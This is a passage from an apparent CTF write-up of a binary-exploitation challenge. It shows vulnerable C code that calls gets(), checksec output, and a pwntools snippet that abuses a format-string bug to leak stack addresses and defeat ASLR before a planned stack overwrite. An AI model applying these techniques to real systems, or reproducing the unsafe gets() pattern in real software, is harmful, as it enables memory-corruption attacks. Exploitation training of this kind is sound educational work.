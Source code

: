 ```c
void AAAAAAAA() {
    char read_buf[0xff];
    
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Hufflepuff!\n");
        _exit(0);
    }
}
```

And also allows us to smash the stack for fun and profit. This function also
has a caveat though, namely that  we **must** pass the `strcmp()` as we cannot
afford the call to `_exit()` as this would terminate the program without ever
using our overwritten stack values.

## 3. Exploiting

### 3.1 Checking out the binary

Looking at the binary with checksec we can see that all security features
but stack canaries are enabled:

```
[*] '/home/managarmr/CTF/2020/CSCG/Pwn/Intro_To_Pwning/pwn1/pwn1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Meaning we have to somehow bypass `ASLR` if we want to return into the 
`WINgardium_leviosa()` function.

### 3.2 Bypassing ASLR

Remember the rogue `printf()`? We can use this to defeat `ASLR` by leaking an
address:

```python
target.sendline('%p ' * 40)
leak = target.recvline_contains('spell:').split(b' ')
for i in range(0, 40):
	log.info(f'{i + 1}: {leak[i]}')
```

Which returns the following output:

```
[...snip...]
[*] 36: b'(nil)'
[*] 37: b'0x56492a6879e9'
[*] 38: b'0x7fffb0d27ad0'
[...snip...]
```
